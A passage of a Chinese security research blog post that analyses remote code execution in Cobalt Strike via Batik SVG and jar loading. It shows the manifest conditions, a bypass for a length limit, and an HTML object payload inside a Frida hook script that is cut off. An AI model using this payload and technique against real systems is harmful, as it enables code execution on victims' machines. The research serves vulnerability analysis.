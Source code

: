 https://www.agarri.fr/blog/archives/2012/05/11/svg_files_and_java_code_execution/index.html  
  
照葫芦画瓢构造恶意文件并编译成jar包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1Ff3xR2CZIem9qlvlYc2HAZqvSAECKhBkmVIqcVbibbswIbeHVzkjYDGw/640?wx_fmt=other&from=appmsg "")  
  
编译后将manifest文件加入jar包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FpGFKB5mWKBeuk6ovOib94ic6tATzTyrtSneLbJgUSxMoQibrW7icALic5CQ/640?wx_fmt=other&from=appmsg "")  
  
但是又遇到一个巨坑的问题，不知道什么情况被拦了，应该是同源策略的关系  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FGj2B7YclhBHbXVHpRrhh05VFaf3S4NyjY0nfHIjPOBbntP8qaxCfmA/640?wx_fmt=other&from=appmsg "")  
  
折腾了半天，加了一条禁用SecurityManager才解决问题（可能是不同batik版本的问题？），重新编译后即可成功启动计算器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1F0raW5P6rzNz32HfJ1vf2FfgLywEia4djLxlmz1ICUYgnibKzPWSJicOnQ/640?wx_fmt=other&from=appmsg "")  
  
也就是通过这种方式加载SVG就能成功执行上线了，迁移到CS中来，继续回到CS分析调用情况，在CS的batik的BaseScriptingEnvironment.java中跟进解析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FicHU2ia21lMR7uPTuaZ7FQ3krahW86UibQ7miapXZPn4GayKmBrUYVsQzg/640?wx_fmt=other&from=appmsg "")  
  
需要满足几个条件  

```
checkCompatibleScriptURL(type, purl);//条件1
man.getMainAttributes().getValue(&#34;Script-Handler&#34;)!=null //条件2
man.getMainAttributes().getValue(&#34;SVG-Handler-Class&#34;)!=null//条件3
```

  
看网上文章好像在老版本里还没有Script-Handler和SVG-Handler-Class，还是var的变量形式（笑死）。下面两个条件是特定字段不为空，第一个方法再跟一下，真是一个套一个...  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FocMrgEicXODQYrnLKC7M44ib3BTlyNNRsFQPS02nC1EbA7YkQ5mhS1hQ/640?wx_fmt=other&from=appmsg "")  
  
继续跟checkLoadScript和getScriptSecurity  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FcmKK6LJLX2OoS6cEnUfcUFsAkwSJebviaz9Yp8tdw0zGLsP6uJdSykA/640?wx_fmt=other&from=appmsg "")  
  
最终跟到了DefaultScriptSecurity  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FMjeXOXokNgticHDKzibobGCeiaDYryu127uomVkxRhSqnNcwVv6eNIuZg/640?wx_fmt=other&from=appmsg "")  
  
可以看到条件就一个，只要远程svg和jar包文件地址相同即可。  
  
长度限制的绕过  
  
上面已经说到了117的长度限制，然鹅如果使用object标签肯定长度会超，分析了一下发现了一个很有意思的东西，还是前面分析过的HTML解析部分，有一个frame标签的解析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FQw0N84U1mPakEAWsib724kwcDmFyZX59xcAbbNpRFxA7hp67fJeDLTg/640?wx_fmt=other&from=appmsg "")  
  
使用标签方式可以绕过长度限制，但是发现出现了一堆报错  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/2sFaYicrjxornYiba8KbVHyB7m80pe9U1FTD3n4HCbZceMtGpv0HqSo5ux44psRjMbEfHHg587XlRYLfkwSytbsw/640?wx_fmt=other&from=appmsg "")  
  
不知道发生了什么，又整了半天没成功，但是可以通过另一个方式去复现，就是Hook WindowsAPI，以后可能会写frida的文章吧（咕咕咕，下次一定），这次先不展开了，主要脚本如下  

```
var payload=&#34;<html><object classid='org.apache.batik.swing.JSVGCanvas'><param name='URI' value='http://127.0.0.1/test.svg'></param></object>&#34;  
    var pProcess32Next = Module.findExportByName(&#34;kernel32.dll&#34;, &#34;Process32Next&#34;)
    Interceptor.attach(pProcess32Next, {
        onEnter: function(args) {
            this.pPROCESSENTRY32 = args[1];
            if(Process.arch == &#34;ia32&#34;){
                this.exeOffset = 36;
            }else{
                this.exeOffset = 44;
            }
            this.szExeFile = this.pPROCESSENTRY32.add(this.exeOffset);
```